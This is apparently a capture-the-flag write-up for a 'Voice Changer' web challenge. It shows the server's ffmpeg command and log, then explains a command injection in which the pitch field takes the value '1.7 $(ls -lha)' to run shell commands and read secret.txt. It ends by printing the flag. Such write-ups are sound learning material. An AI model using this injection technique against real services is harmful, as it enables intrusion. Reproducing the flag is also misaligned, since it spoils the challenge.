






đề bài : Voice Changer
vul : command injection

When you go to the page you will see

Flow : click to the micro will record voice
Input pitch is fast or slow @@
after submit your voice will receive

///////////////////////////////////////////////////

$ ffmpeg -i "/app/upload/0a8445c0-b561-11ee-b2b7-a532f82fac95.ogg" -y -af "asetrate=44100*1,aresample=44100,atempo=1/1" "/app/output/0a8445c0-b561-11ee-b2b7-a532f82fac95.ogg"

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  built with gcc 13.2.1 (Alpine 13.2.1_git20231014) 20231014
  configuration: --prefix=/usr --disable-librtmp --disable-lzma --disable-static --disable-stripping --enable-avfilter --enable-gpl --enable-ladspa --enable-libaom --enable-libass --enable-libbluray --enable-libdav1d --enable-libdrm --enable-libfontconfig --enable-libfreetype --enable-libfribidi --enable-libharfbuzz --enable-libmp3lame --enable-libopenmpt --enable-libopus --enable-libplacebo --enable-libpulse --enable-librav1e --enable-librist --enable-libsoxr --enable-libsrt --enable-libssh --enable-libtheora --enable-libv4l2 --enable-libvidstab --enable-libvorbis --enable-libvpx --enable-libwebp --enable-libx264 --enable-libx265 --enable-libxcb --enable-libxml2 --enable-libxvid --enable-libzimg --enable-libzmq --enable-lto=auto --enable-lv2 --enable-openssl --enable-pic --enable-postproc --enable-pthreads --enable-shared --enable-vaapi --enable-vdpau --enable-version3 --enable-vulkan --optflags=-O3 --enable-libjxl --enable-libsvtav1 --enable-libvpl
  libavutil      58. 29.100 / 58. 29.100
  libavcodec     60. 31.102 / 60. 31.102
  libavformat    60. 16.100 / 60. 16.100
  libavdevice    60.  3.100 / 60.  3.100
  libavfilter     9. 12.100 /  9. 12.100
  libswscale      7.  5.100 /  7.  5.100
  libswresample   5.  0.100 /  5.  0.100
  libpostproc    57.  3.100 / 57.  3.100
Input #0, matroska,webm, from '/app/upload/0a8445c0-b561-11ee-b2b7-a532f82fac95.ogg':
  Metadata:
    encoder         : Chrome
  Duration: N/A, start: 0.000000, bitrate: N/A
  Stream #0:0(eng): Audio: opus, 48000 Hz, mono, fltp (default)
Stream mapping:
  Stream #0:0 -> #0:0 (opus (native) -> vorbis (libvorbis))
Press [q] to stop, [?] for help
Output #0, ogg, to '/app/output/0a8445c0-b561-11ee-b2b7-a532f82fac95.ogg':
  Metadata:
    encoder         : Lavf60.16.100
  Stream #0:0(eng): Audio: vorbis, 44100 Hz, mono, fltp (default)
    Metadata:
      encoder         : Lavc60.31.102 libvorbis
size=       3kB time=00:00:00.03 bitrate= 742.6kbits/s speed=15.3x    
[out#0/ogg @ 0x7f8d02d395c0] video:0kB audio:12kB subtitle:0kB other streams:0kB global headers:3kB muxing overhead: 29.082904%
size=      15kB time=00:00:01.69 bitrate=  73.3kbits/s speed=24.4x   

/////////////////////////////////////
- see this page use command to research

GPT :

You can see the pitch will inject to ,atempo=1/1
We use command "1.7 $(ls -lha)" to the pitch value
Observe carefully And we can see the output
View exploit

You can see file secret.txt

Flags : uoftctf{Y0URPitchIS70OH!9H}
